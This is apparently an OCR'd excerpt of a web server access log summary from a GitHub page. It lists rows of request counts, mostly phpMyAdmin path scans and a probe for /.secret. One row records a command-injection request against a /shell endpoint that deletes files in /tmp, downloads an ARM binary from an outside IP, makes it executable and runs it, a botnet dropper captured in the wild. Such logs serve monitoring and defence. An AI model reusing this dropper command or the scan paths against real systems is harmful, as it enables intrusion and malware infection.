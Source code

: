 | 186 |                     1 | GET /.secret HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                               |
| 187 |                     1 | GET /phpdetails.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                        |
| 188 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\xEE\x80\xC0\x1Ce\xFA\x0E\xB6\xB9\x9A\x8FD<\xB0cMw\x82A\xFA\xA0\x978t&\xEE\xC4\x08qu\xC3T \x81F\xBE                                                                                                                                                                                                                                                     |
| 189 |                     1 | GET /_phpMyAdmin/index.php?lang=en HTTP/1.1                                                                                                                                                                                                                                                                                                                                                         |
| 190 |                     1 | GET /phpmyadmin2018/index.php?lang=en HTTP/1.1                                                                                                                                                                                                                                                                                                                                                      |
| 191 |                     1 | GET /db/phpMyAdmin-4/index.php?lang=en HTTP/1.1                                                                                                                                                                                                                                                                                                                                                     |
| 192 |                     1 | GET /mysql/pMA/index.php?lang=en HTTP/1.1                                                                                                                                                                                                                                                                                                                                                           |
| 193 |                     1 | GET /sql/sql/index.php?lang=en HTTP/1.1                                                                                                                                                                                                                                                                                                                                                             |
| 194 |                     1 | GET /phpmy-admin/index.php?lang=en HTTP/1.1                                                                                                                                                                                                                                                                                                                                                         |
| 195 |                     1 | GET /mysql/dbadmin/index.php?lang=en HTTP/1.1                                                                                                                                                                                                                                                                                                                                                       |
| 196 |                     1 | GET /db/phpMyAdmin/index.php?lang=en HTTP/1.1                                                                                                                                                                                                                                                                                                                                                       |
| 197 |                     1 | GET /_phpmyadmin_/index.php?lang=en HTTP/1.1                                                                                                                                                                                                                                                                                                                                                        |
| 198 |                     1 | GET /phpMyAdmin-4/index.php?lang=en HTTP/1.1                                                                                                                                                                                                                                                                                                                                                        |
| 199 |                     1 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 103.241.65.218/selfreps/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                                                                                                                                                                                                       |